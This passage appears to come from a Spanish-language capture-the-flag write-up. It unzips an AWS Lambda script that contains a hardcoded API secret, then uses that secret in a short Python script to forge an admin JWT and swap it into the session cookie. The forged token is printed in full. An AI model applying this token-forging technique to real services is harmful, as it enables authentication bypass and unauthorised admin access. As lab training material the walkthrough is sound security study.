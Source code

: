 Tenemos un archivo zip, vamos a descomprimirlo:
```
unzip code
Archive:  code
  inflating: lambda_function.py
```

Veamos que contiene este script en python:

```python
import json

secret='RrXCv`mrNe!K!4+5`wYq' #apigateway authorization for CR-124

'''Beta release for tracking'''
def lambda_handler(event, context):
    try:
        id=event['queryStringParameters']['order_id']
        if id:
            return {
               'statusCode': 200,
               'body': json.dumps(str(resp)) #dynamodb tracking for CR-342
            }
        else:
            return {
                'statusCode': 500,
                'body': json.dumps('Invalid Order ID')
            }
    except:
        return {
                'statusCode': 500,
                'body': json.dumps('Invalid Order ID')
            }
```

Aquí podemos ver la función que se está empleando, y vemos algo que necesitabamos anteriormente, tenemos el **secret**, con esto podemos creanos un JWT para poder logearnos en la web sin necesidad de ingresar la contraseña, por lo tanto, vamos a crear este token con python:

```py
import jwt

secret='RrXCv`mrNe!K!4+5`wYq'
print(jwt.encode({"username":"admin"},secret,algorithm="HS256"))
```

Si lo ejecutamos:
```
python3 py.py

eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VybmFtZSI6ImFkbWluIn0.WFYEm2-bZZxe2qpoAtRPBaoNekx-oOwueA80zzb3Rc4
```

Vemos que hemos creado el token, vamos a intentar logearnos en la web, para ello cambiaremos nuestra cookie de sesión por el JWT:
